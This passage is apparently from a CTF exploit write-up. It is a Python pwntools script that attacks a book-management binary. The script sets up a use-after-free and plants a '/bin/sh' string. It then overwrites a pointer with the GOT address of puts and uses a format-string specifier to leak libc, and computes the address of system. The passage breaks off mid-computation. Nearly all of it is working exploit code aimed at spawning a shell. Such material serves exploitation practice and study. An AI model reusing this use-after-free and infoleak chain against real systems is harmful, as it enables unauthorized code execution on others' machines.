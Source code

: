 ```
# add a bunch of books to use late with the use after free
addBook(50, 5, "0"*50)
addBook(50, 5, "1"*50)
addBook(50, 5, "2"*50)
addBook(50, 5, "3"*50)
addBook(50, 5, "4"*50)
addBook(50, 5, "5"*50)
addBook(50, 5, "6"*50)
addBookSpc(50, 5, "/bin/sh\x00") # this book will contain the "/bin/sh" string to pass a pointer to free
addBook(50, 5, "8"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "x"*50)
addBook(50, 5, "y"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "q"*50)


# delete the books, to setup the use after free
deleteBook(0)
deleteBook(1)
deleteBook(2)
deleteBook(3)
deleteBook(4)
deleteBook(5)
deleteBook(6)
deleteBook(7)
deleteBook(8)
deleteBook(9)
deleteBook(10)
deleteBook(11)
deleteBook(12)
deleteBook(13)
deleteBook(14)


# This is the initial overflow of a pointer with the got address of `puts` to get the libc infoleak
addBookSpc(50, 5, "15935728"*1 + p64(0x602028) + "z"*8 + "%7$lx.")

# Display all of the books, to get the libc infoleak
target.sendline('3')

# Filter out the infoleak
print target.recvuntil('{')
print target.recvuntil('{')
print target.recvuntil('{')
print target.recvuntil('{')

print target.recvuntil("\"name\": \"")

leak = target.recvuntil("\"")
leak = leak.replace("\"", "")
print "leak is: " + str(leak)
leak = u64(leak + "\x00"*(8 - len(leak)))

# Subtract the offset to system from puts from the infoleak, to get the libc address of system
leak = leak - 0x31580

print "leak is: " + hex(leak)

# do a bit of binary math to get the 

part0 = str(leak & 0xffff)
```